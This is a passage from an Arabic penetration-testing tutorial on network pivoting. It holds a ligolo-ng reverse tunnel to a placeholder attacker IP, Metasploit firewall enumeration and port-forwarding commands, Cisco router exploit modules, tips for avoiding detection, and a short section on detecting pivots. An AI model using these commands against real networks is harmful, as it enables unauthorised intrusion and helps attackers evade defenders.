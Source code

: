 # على النظام المخترق
./ligolo-ng_agent -connect [attacker_ip]:11601 -ignore-cert
تجاوز الحماية
1. تجاوز جدران الحماية
bash
# فحص قواعد جدار الحماية
run post/windows/gather/firewall_rules
run post/linux/gather/enum_iptables

# استخدام المنافذ المسموح بها عادة (80, 443, 53)
portfwd add -l 443 -p 3389 -r 192.168.1.100
2. تحديد واستغلال ثغرات في أجهزة الشبكة
# استخدام وحدات استغلال الراوتر
use auxiliary/scanner/snmp/cisco_config
use exploit/linux/http/cisco_rv320_rce
أفضل الممارسات للتنقل
الحد من الضوضاء: قلل نشاط الشبكة لتجنب الكشف
الاحتفاظ بسجل للاتصالات: وثق جميع القنوات والأنفاق التي تم إنشاؤها
استخدام المنافذ الشائعة: استخدم المنافذ المعروفة لتجنب الشك
التنظيف بعد الانتهاء: إزالة جميع التوجيهات والأنفاق بعد الانتهاء
استخدام التشفير: تأمين قنوات التنقل باستخدام التشفير
أدوات مفيدة للتنقل
Metasploit: التوجيه، البروكسي، إعادة توجيه المنافذ
SSH: أنفاق SSH، بروكسي SOCKS، إعادة توجيه المنافذ
Socat: إعادة توجيه المنافذ المتقدم
Chisel: أنفاق شبكة بديلة
Proxychains: توجيه تطبيقات عبر بروكسي
Ligolo: أداة تنقل مفتوحة المصدر بميزات متقدمة
Sshuttle: أداة VPN بسيطة تعمل على بروتوكول SSH
Ngrok: تعرض المنافذ المحلية للإنترنت (مفيد للاختبارات التعاونية)
اكتشاف التنقل
لمساعدة فرق الدفاع في تحسين الأمان، من المهم فهم كيفية اكتشاف محاولات التنقل:

# اكتشاف قنوات التنقل
netstat -antup | grep LISTEN
lsof -i
ps aux | grep ssh | grep -v grep
استخدام أنظمة كشف التسلل للبحث عن:

اتصالات شبكة غير عادية
استخدام منافذ غير مألوفة
نمط حركة مرور الشبكة غير طبيعي
محاولات اتصال من أجهزة داخلية إلى عناوين خارجية مشبوهة

